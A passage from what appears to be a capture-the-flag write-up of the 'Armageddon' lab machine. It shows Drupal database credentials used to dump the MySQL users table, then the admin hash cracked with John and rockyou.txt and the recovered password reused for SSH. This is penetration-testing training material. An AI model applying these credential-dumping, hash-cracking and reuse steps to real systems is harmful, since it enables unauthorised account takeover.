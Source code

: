 Now, logging into MySQL with username `drupaluser` and password `CQHEy@9M*m23gBVj` allows us to dump the users table and view the password hashes.

```
apache-4.2$ mysql -u drupaluser -p drupal
mysql -u drupaluser -p drupal
Enter password: CQHEy@9M*m23gBVj
select * from users;
exit();
ERROR 1064 (42000) at line 2: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'exit()' at line 1
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu        a:1:{s:7:"overlay";i:1;}
apache-4.2$
```

We see `brucetherealadmin` has a hash of `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`. We can drop this hash into a file called `armageddon.hash` and try to crack it with John and the `rockyou.txt` wordlist.

![user](/wp-content/uploads/2021/07/armageddon/user.png)  
**Figure 4:** Cracking the password hash for *brucetherealadmin*.  

As we can see above, the password that *brucetherealadmin* uses to login to Drupal is `booboo`. If we attempt the to use those same credentials to ssh into the server, we'll see that it's successful.

![userflag](./images/userflag.png)  
**Figure 5:** User flag by *brucetherealadmin*'s credential reuse.

## Root Flag  
